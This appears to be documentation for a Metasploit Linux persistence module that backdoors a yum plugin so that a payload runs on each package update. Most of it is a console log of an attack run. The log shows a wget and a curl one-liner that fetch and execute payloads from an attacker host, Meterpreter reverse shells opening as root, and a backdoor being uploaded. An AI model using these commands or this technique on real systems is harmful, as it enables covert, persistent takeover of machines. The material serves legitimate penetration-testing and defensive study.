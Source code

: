 ## Description

This module will run a payload when the package manager is used.
This module modifies a yum plugin to launch a binary of choice.
`grep -F 'enabled=1' /etc/yum/pluginconf.d/`
will show what plugins are currently enabled on the system.

root persmissions are likely required.

Verified on Centos 7.1

## Verification Steps

1. Exploit a box that uses Yum
2. `use exploit/linux/persistence/yum_package_manager`
3. `set SESSION <id>`
4. `set PAYLOAD cmd/unix/reverse_python` configure the payload as needed
5. `exploit`

When the system runs yum update the payload will launch.  You must set handler accordingly.

## Options

**BACKDOOR_NAME**
Name of backdoor executable

**PLUGIN**
Name of the yum plugin to target
  
**WritableDir**
Writable directory for backdoor default is `/usr/local/bin/`

**PluginPath**
Plugin path to use default is (/usr/lib/yum-plugins/)

## Scenarios

### Tested on Centos 7.1

Initial access vector via web delivery

```
resource (/root/.msf4/msfconsole.rc)> setg verbose true
verbose => true
resource (/root/.msf4/msfconsole.rc)> setg lhost 111.111.1.111
lhost => 111.111.1.111
resource (/root/.msf4/msfconsole.rc)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set srvport 8181
srvport => 8181
resource (/root/.msf4/msfconsole.rc)> set target 7
target => 7
resource (/root/.msf4/msfconsole.rc)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set lport 4545
lport => 4545
resource (/root/.msf4/msfconsole.rc)> set URIPATH l
URIPATH => l
resource (/root/.msf4/msfconsole.rc)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Starting persistent handler(s)...
[*] Started reverse TCP handler on 111.111.1.111:4545 
[*] Using URL: http://111.111.1.111:8181/l
[*] Server started.
[*] Run the following command on the target machine:
wget -qO KOiqZchh --no-check-certificate http://111.111.1.111:8181/l; chmod +x KOiqZchh; ./KOiqZchh& disown
[msf](Jobs:1 Agents:0) exploit(multi/script/web_delivery) > 
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 192.168.2.100
[*] Meterpreter session 1 opened (111.111.1.111:4545 -> 192.168.2.100:34470) at 2025-02-16 11:30:09 -0500

[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > use exploit/linux/persistence/yum_package_manager 
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
[msf](Jobs:2 Agents:2) exploit(linux/persistence/yum_package_manager) > sessions -i 1
[*] Starting interaction with 1...

(Meterpreter 1)(/home/centos) > getuid
Server username: root
(Meterpreter 1)(/home/centos) > sysinfo
Computer     : centos71.localdomain
OS           : CentOS 7.9.2009 (Linux 3.10.0-1160.53.1.el7.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
(Meterpreter 1)(/home/centos) > background
[*] Backgrounding session 1...
```

Persistence

```
[msf](Jobs:1 Agents:1) exploit(linux/persistence/yum_package_manager) > set session 1
session => 1
[msf](Jobs:1 Agents:1) exploit(linux/persistence/yum_package_manager) > exploit
[*] Command to run on remote host: curl -so ./lgtOaZox http://111.111.1.111:8080/Hg3DGEu9GqlWD06kh4AzFg;chmod +x ./lgtOaZox;./lgtOaZox&
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[msf](Jobs:2 Agents:1) exploit(linux/persistence/yum_package_manager) > 
[*] Fetch handler listening on 111.111.1.111:8080
[*] HTTP server started
[*] Adding resource /Hg3DGEu9GqlWD06kh4AzFg
[*] Started reverse TCP handler on 111.111.1.111:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.222
[+] Plugins are enabled!
[*] Meterpreter session 2 opened (111.111.1.111:4444 -> 222.222.2.222:53880) at 2025-02-16 11:30:59 -0500
[!] The service is running, but could not be validated. yum installed and plugin found, enabled, and backdoorable
[*] Attempting to modify plugin
[*] Backdoor uploaded to /tmp/7EtplboZD
[+] Backdoor will run on next Yum update
[*] Meterpreter-compatible Cleaup RC file: /root/.msf4/logs/persistence/centos71.localdomain_20250216.3101/centos71.localdomain_20250216.3101.rc
```
